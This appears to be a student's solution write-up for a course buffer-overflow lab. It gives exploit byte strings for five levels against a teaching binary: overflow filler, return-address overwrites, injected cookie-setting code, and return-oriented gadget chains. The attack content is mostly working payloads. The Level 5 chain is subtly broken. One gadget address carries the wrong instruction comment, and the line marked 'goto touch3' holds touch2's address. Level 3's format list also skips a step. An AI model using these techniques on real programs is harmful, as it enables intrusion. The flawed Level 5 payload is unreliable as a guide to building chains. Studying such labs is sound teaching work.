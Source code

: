 # Solution With Notes

## Level 1
- touch1 address: 0x00000000004017c0

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp      // Allocates 28 bytes
  ...
```

**String**: 
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00 /* touch1 address */
```

## Level 2
- touch2 address: 0x00000000004017ec

<ins> Exploit code:
```
   0:	bf fa 97 b9 59       	mov    $0x59b997fa, %edi    // Cookie value
   5:	c3                   	ret    
```

<ins> Format: 
  1. Filler
  2. Address of exploit code, *%rsp on getbuf ret
  3. Address of touch2, *%rsp on exploit code ret
  4. Exploit code

- Exploit code address: getbuf starting %rsp + 16 = 0x55685fc0 + 0x10 = 0x55685fd0

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 68 55 00 00 00 00 /* exploit code address */
ec 17 40 00 00 00 00 00 /* touch2 address */
bf fa 97 b9 59 c3       /* exploit code */
```

## Level 3
- touch3 address: 0x00000000004018fa

<ins> Format: 
  1. Filler
  2. Address of exploit code
  4. Address of touch3
  5. Cookie string, 9 bytes
  6. Exploit code

- Exploit code address: getbuf starting %rsp + 16 + 9 = 0x55685fd9
- Cookie string: "59b997fa" -> hex -> 35 39 62 39 39 37 66 61 00
- Cookie string address: getbuf starting %rsp + 16 = 0x55685fd0

<ins> Exploit code:
```
   0:	bf d0 5f 68 55       	mov    $0x55685fd0, %edi      // Set argument 1 to point to cookie string (upper 32 bits set to 0)
   5:	c3                   	ret    
```

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d9 5f 68 55 00 00 00 00 /* exploit code address */
fa 18 40 00 00 00 00 00 /* touch3 address */
35 39 62 39 39 37 66 61 /* cookie string */
00
bf d0 5f 68 55 c3       /* exploit code */
```

## Level 4
- touch2 address: 0x00000000004017ec

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 4019ab    | popq %rax    |
    
    

**String**:
```
00 00 00 00 00 00 00 00 /* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie value */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch2 */
```

## Level 5
- touch3 address: 0x00000000004018fa

| Address   | Operation |
| -------- | ------- | 
| 4019a2    | movq %rax, %rdi    |
| 401a06    | movq %rsp, %rax    |
| 4019dd    | movl %eax, %edx    |
| 401a34    | movl %edx, %ecx    |
| 401a13    | movl %ecx, %esi    |
| 4019ab    | popq %rax    |

- Useful function: add_xy, address: 0x00000000004019d6

**String**:
```
/* 0x28 filler characters */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Get offset and move it to %rsi */
ab 19 40 00 00 00 00 00 /* popq %rax, %rax = offset value */
40 00 00 00 00 00 00 00 /* offset value = 0x40 */
dd 19 40 00 00 00 00 00 /* movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* movl %ecx, %esi */

/* Get pointer to 2 lines below this one, add it to offset to get the pointer to cookie string */
ab 19 40 00 00 00 00 00 /* movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
d6 19 40 00 00 00 00 00 /* goto add_xy */

a2 19 40 00 00 00 00 00 /* movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* goto touch3 */

/* cookie string */
35 39 62 39 39 37 66 61
00
```
